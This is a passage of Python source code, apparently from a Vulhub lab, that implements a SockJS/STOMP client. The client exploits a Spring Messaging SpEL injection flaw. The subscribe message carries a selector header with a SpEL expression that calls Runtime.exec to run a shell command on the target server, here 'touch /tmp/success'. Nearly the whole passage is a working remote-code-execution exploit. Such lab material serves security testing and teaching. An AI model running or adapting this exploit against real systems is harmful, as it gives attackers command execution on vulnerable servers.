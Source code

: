 ```python
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```
